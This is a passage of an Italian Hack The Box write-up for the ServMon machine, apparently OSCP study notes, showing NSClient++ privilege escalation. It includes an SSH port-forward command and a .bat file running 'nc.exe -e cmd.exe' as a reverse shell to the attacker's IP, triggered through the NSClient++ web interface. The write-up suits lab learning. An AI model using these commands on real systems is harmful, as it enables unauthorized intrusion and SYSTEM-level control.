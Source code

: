 ```bash
        Microsoft Windows [Version 10.0.17134.753]
        (c) 2018 Microsoft Corporation. All rights reserved.

        C:\Program Files\NSClient++>whoami
        whoami
        nt authority\system

Risk:
The vulnerability allows local attackers to escalate privileges and execute arbitrary code as Local System                                                                                                                                  
```

Perfetto sono istruzioni per la Privesc, proviamole.

Come prima cosa dobbiamo accedere ad 10.10.10.184:8443 ma dalla nostra macchina non riusciamo.
Proviamo con [Tunneling ssh](../Note/Pivoting,%20Tunneling%20and%20Port%20Forwarding.md)

```bash
┌──(root㉿kali)-[/home/kali]
└─# ssh -L 8443:127.0.0.1:8443 nadine@10.10.10.184
```

Ora posso accedere a https://127.0.0.1:8443/ e accedere con la password:

![](../Hackthebox-OSCP-Prepartion/zzz_rev/attachments/Servmon3.png)

![](../Hackthebox-OSCP-Prepartion/zzz_rev/attachments/Servmon4.png)
Ora seguendo quanto scritto nella exploit

scarichiamo con curl nc.exe (versione 64bit ) nella cartella Temp del target e scriviamo il file .bat

```bash
nadine@SERVMON C:\Temp>dir
 Volume in drive C has no label.
 Volume Serial Number is 20C1-47A1

 Directory of C:\Temp

09/27/2023  11:55 PM    <DIR>          .
09/27/2023  11:55 PM    <DIR>          ..
09/27/2023  11:54 PM            45,272 nc.exe
09/27/2023  11:55 PM                42 pleasesub.bat
               2 File(s)         45,314 bytes
               2 Dir(s)   6,102,278,144 bytes free

nadine@SERVMON C:\Temp>type pleasesub.bat
c:\Temp\nc.exe -e cmd.exe 10.10.14.16 443
```

a questo punto andiamo nell interfaccia web, alla voce setting/external script/
ne aggiungiamo uno e alla voce comando mettiamo il percorso del nostro file.bat

![](../Hackthebox-OSCP-Prepartion/zzz_rev/attachments/Servmon6.png)
non ci resta che salvare nella voce Changes e fare il reload alla voce Control 
>[!info]
>spesso crasha e bisogna riavviare la macchina
